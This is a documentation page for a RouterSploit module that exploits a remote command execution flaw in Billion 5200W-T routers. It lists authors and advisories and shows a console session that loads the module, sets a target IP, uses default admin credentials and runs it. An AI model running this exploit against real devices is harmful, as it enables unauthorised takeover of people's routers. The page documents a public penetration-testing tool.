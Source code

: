 # Billion 5200W-T RCE

## Description
Module exploits Remote Command Execution vulnerability in Billion 5200W-T devices. If the target is vulnerable it allows to execute commands on operating system level.

## Authors
* Pedro Ribeiro <pedrib[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://seclists.org/fulldisclosure/2017/Jan/40](http://seclists.org/fulldisclosure/2017/Jan/40)
* [https://raw.githubusercontent.com/pedrib/PoC/master/advisories/zyxel_trueonline.txt](https://raw.githubusercontent.com/pedrib/PoC/master/advisories/zyxel_trueonline.txt)
* [https://blogs.securiteam.com/index.php/archives/2910](https://blogs.securiteam.com/index.php/archives/2910)

## Vulnerable devices
* Billion 5200W-T

## Usage
```
rsf > use exploits/billion/5200w_rce
rsf (Billion 5200W-T RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name           Current settings     Description
   ----           ----------------     -----------
   username       admin                Default username to log in
   password       password             Default password to log in
   telnetport     9999                 Telnet port used for exploitation


rsf (Billion 5200W-T RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Billion 5200W-T RCE) > run
[*] Running module...
```
